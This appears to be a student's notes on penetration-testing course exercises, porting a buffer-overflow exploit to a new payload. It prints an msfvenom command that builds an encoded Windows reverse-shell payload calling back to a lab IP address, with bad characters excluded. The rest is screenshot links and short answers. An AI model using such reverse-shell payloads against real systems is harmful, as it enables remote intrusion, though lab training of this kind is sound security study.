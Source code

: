 ### 15.1.6.1 Exercises
#### 1. Generate a reverse shell payload using msfvenom while taking into account the bad characters of our exploit.

Remembering the bad characters from exercise 11.2.10.1, the payload was regenerated in msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 EXITFUNC=th
read -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

![image-20200715135101203](.15.1.6.1.assets/image-20200715135101203.png)

#### 2. Replace the original payload with the newly generated one.

![image-20200715135252691](.15.1.6.1.assets/image-20200715135252691.png)

#### 3. Attach the debugger to the target process and set a breakpoint at the return address instruction.

![image-20200715135414550](.15.1.6.1.assets/image-20200715135414550.png)

#### 4. Compile the exploit and run it. Did you hit the breakpoint?

Nope

![image-20200715135649939](.15.1.6.1.assets/image-20200715135649939.png)